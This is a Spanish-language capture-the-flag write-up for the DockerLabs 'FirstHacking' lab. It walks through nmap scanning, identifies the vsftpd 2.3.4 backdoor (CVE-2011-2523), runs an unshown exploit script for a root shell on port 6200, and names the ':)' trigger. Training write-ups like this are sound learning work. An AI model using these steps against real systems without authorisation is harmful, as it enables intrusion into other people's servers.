




# 🎯 FirstHacking - DockerLabs

## 📋 Descripción

Máquina DockerLabs **Muy Fácil** enfocada en la explotación del backdoor presente en `vsftpd 2.3.4` mediante la vulnerabilidad `CVE-2011-2523`, obteniendo acceso directo como root.

---

# 🕵️ Fase 1 - Enumeración

## Escaneo de puertos

Primero realizo un escaneo general para identificar los puertos abiertos en la máquina víctima.

`sudo nmap -p- --open -sS -n -Pn 172.17.0.2`

---

## Escaneo de versiones

Una vez identificado el puerto FTP, realizo un escaneo de versiones para obtener más información sobre el servicio.

`sudo nmap -sV -p 21 172.17.0.2`

### Vulnerabilidad identificada

El servicio detectado corresponde a:

`vsftpd 2.3.4`

Esta versión contiene un backdoor remoto asociado a la vulnerabilidad:

* CVE-2011-2523

---

# 🚀 Fase 2 - Explotación

## Script Python

Utilizo un exploit en Python para aprovechar el backdoor de `vsftpd 2.3.4`.

---

## Ejecución del exploit

`python3 exploit.py 172.17.0.2`

El exploit establece una shell remota con privilegios root mediante el puerto `6200`.

---

# ✅ Fase 3 - Verificación

Una vez obtenida la shell verifico los privilegios del sistema.

`whoami`

Resultado:

`root`

---

`id`

Resultado:

`uid=0(root) gid=0(root)`

---

`ls -la /root`

---

# 📸 Evidencias clave

## Nmap detectando vsftpd 2.3.4

`21/tcp open ftp vsftpd 2.3.4`

---

## Shell root obtenida

`$ whoami`

`root`

---

# 🧠 Lecciones aprendidas

* `vsftpd 2.3.4` contiene un backdoor explotable.
* El payload `:)` activa la puerta trasera.
* El servicio vulnerable abre una shell en el puerto `6200`.
* No fue necesario realizar escalada de privilegios.

---

# 🔗 Referencias

* CVE-2011-2523
* Exploit-DB: 49757
* DockerLabs: FirstHacking
